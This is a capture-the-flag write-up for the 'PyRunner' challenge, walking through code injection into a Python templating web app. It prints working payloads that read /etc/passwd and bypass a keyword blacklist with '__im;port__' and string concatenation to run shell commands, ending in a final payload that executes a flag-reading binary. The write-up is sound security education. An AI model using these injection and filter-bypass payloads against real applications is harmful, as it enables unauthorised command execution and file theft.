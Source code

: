 # STACK The Flags CTF Writeup

STACK The Flags (Category 2: University, Polytechnics)

Link: https://ctf.hackthebox.com/event/747

Challenge: PyRunner

![](./images/Pasted%20image%2020221203160910.png)

---

## Target

The target is `157.245.52.169:32757`, which when navigated to, presents me with a simple web app that executes Python templates:

![](./images/Pasted%20image%2020221203010534.png)

Interacting with the dropdown displays another template, _"Webserver Template Duplicate"_, which (when selected) renders an **Arguments** section below the (disabled/non-editable) template source, allowing us to create new templates with a `title`, `host` and `port`:

![](./images/Screenshot%202022-12-03%20at%201.10.02%20AM.png)

Ok, so this challenge seems like it will deal with **command injection**, specifically—injecting a malicious command into one of those input fields.

### Files

The challenge also provided the source code for the webapp:

![](./images/Pasted%20image%2020221203060133.png)

Some files of interest:

![](./images/Pasted%20image%2020221203012946.png)
![](./images/Pasted%20image%2020221203013012.png)

So this is _definitely_ a command injection / arbitrary command execution challenge. But first, I have to figure out which of the 3 input fields is vulnerable to injection.

When a newly-created template is run, the server calls the `run_template` function, which extracts the arguments passed through the 3 input fields and passes them through a rudimentary word filter which replacing certain blacklisted plaintext strings with empty strings, `""`.

```py
contents.replace(f"<{argument}>", textfilter(data["arguments"][argument]))
```

```py
# textfilter function pretty much just replaces instances
# of the following strings with an empty string, ""
disallowed = ["import", ";", "\n", "eval", "exec", "os"]
# system isn't blacklisted...
```

I find that `title` is the only passed argument that gets printed out in the server-hosted `template.py` file (line 11), so this will be my target input to inject commands into.

```py
print("Webserver: <title>")
#                  ^^^^^
```

So the general format of the injection will look something like `test>", {injection}) #` , which will turn the line above into:

```py
print("Webserver: <test>", {injection}) #")
```

### Command Injection

First I tried a simple injection just to check if I can get the server to perform some sort of calculation, to confirm that the injection was successful:

`test>", 1+2) #`

![](./images/Pasted%20image%2020221203015436.png)

_Niiice_, arbitrary command execution. Now to figure out how to spit out stuff that is actually useful.

---

`test>", system("ls")) #`

Since `system` isn't blocked, I can theoretically use it for command execution, however it isn't imported in `template.py`, so (predictably) this injection fails for this exact reason:

![](./images/Pasted%20image%2020221203014700.png)

Maybe I can import it inline? Going for a `system` call seems like the obvious approach, however, `;` are filtered out, as well as `import`, so there's some thinking to be done before I can use it.

---

After some time studying python command injection, I found that imports can be done via many alternative syntaxes, specifically:

- `__import__("os").system("ls")`
- `imp.os.system("ls")`

These might come in handy, however they still fail since either `import` or `os` is still present in the command string:

`test>", __import__('os').system('ls -la')) #>")`

![](./images/Pasted%20image%2020221203023737.png)

---

Time to switch gears, let's see what I can do with other commands which aren't blacklisted.

`test>", open("/etc/passwd").read()) #>")`

![](./images/Pasted%20image%2020221203030819.png)

_Very interesting_. Ok, so open seems promising, but I'm not sure if it's necessarily useful since I don't know
the filename or location of the flag... (Hindsight: turns out I _did_ know via included `Dockerfile`, but I ended up
going with a different approach.)

---

### What about the filenames?

Every created template is saved with a randomly generated filename:

![](./images/Pasted%20image%2020221203032208.png)

and the server sends back a response containing a computed output by a **juicy** `subprocess.run()` call that can run _anything_ in the `/scripts` directory…

![](./images/Pasted%20image%2020221203032329.png)

![](./images/Pasted%20image%2020221203032250.png)

Maybe I can write a malicious script to the location of an existing template?

But how do I get around the random `filename` generation? On second thought, this doesn't seem like the right approach (hindsight: it wasn't).

---

### Back to inline import approach

After messing around with some more ideas on how to bypass the blacklist, I discovered that I can get
the string `"import"` through the filter by sticking a `;` in it, however it didn't work for `"os"`—which I discovered
I can bypass by simply concatenating `“o” + “s”`:

`test>", __im;port__('o'+'s').system('ls -la')) #>")`

![](./images/Screenshot%202022-12-03%20at%204.17.54%20AM.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted (filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd .. && ls -la')) #>")`

![](./images/Pasted%20image%2020221203043442.png)

Finally, I found a file named `readflag`, however I can't seem to `cat` it out, nor can I `file readflag` its contents to even identify what it is. So using `stat`, I get some more information about this `cat`-immune file:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag')) #>")`

![](./images/Pasted%20image%2020221203045642.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted
(filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && od -c -tx1 readflag')) #>")`

![](./images/Pasted%20image%2020221203050617.png)

Finally, I found a `readflag` file, which (given the included `Dockerfile`) we know is an executable binary.

![](./images/Pasted%20image%2020221204195414.png)

### Final payload:

```
test>",__im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && ./readflag')) #
```

![](./images/Pasted%20image%2020221204210105.png)

### 🏴‍☠️ Flag:

```
STF22{4ut0m4t3d_c0mm4nd_1nj3ct10n}
```
